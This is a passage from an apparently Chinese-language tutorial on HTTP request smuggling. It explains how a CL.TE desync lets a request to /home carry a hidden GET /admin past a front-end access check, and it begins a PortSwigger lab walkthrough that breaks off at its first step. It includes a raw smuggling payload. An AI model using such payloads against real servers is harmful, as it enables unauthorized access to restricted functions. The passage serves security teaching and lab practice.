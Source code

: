 [![](assets/1704418275-02e6faa0a55ec2ea81ed9ef1028af1a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154941-a6fa355a-aa0c-1.png)

## 走私绕过

### 前端限制

假设应用程序使用前端服务器来实现访问控制限制，仅当用户被授权访问所请求的URL时才转发请求，然后后端服务器接受每个请求，而不做进一步的检查，在这种情况下可以利用HTTP请求走私漏洞通过请求走私访问受限制的URL从而绕过访问控制，假如允许当前用户访问/home，但不允许访问/admin，他们可以使用以下请求走私攻击绕过这一限制：

```plain
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都是针对/home的，因此请求被转发到后端服务器，但是后端服务器看到一个对/home的请求和一个对/admin的请求，它(像往常一样)假设请求已经通过了前端控件，因此授予对受限URL的访问权限  
下面我们介绍一下具体的绕过方式：

#### CL.TE Bypass

靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)  
绕过演示：  
Step 1：直接访问上面的链接，点击"ACCESS THELAB"进入靶场  